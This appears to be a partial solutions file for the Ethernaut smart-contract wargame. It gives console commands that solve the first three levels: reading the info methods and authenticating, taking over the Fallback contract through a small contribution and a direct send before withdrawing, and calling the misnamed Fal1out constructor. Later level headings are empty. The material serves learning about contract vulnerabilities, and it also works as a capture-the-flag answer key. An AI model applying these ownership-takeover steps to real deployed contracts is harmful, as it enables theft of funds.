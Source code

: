 #1. Hello Ethernaut
```
contract.info()

contract.info1()

contract.info2()

contract.infoNum()

contract.info42()

contract.theMethodName()

contract.method7123949()

contract.password()

contract.authenticate("ethernaut0")

```
---
#2. Fallback
```
contract.contribute.sendTransaction({from: player, value: toWei("0.0001")})

contract.sendTransaction({from: player, value: toWei(0.0000001)})

contract.withdraw()
```
---
#3. Fallout
```
contract.Fal1out.sendTransaction({from: player, value: toWei("0.00001")})
```
#4. Coin Flip

---
#5. Telephone

---
#6. Token

---
#7. Delegation

---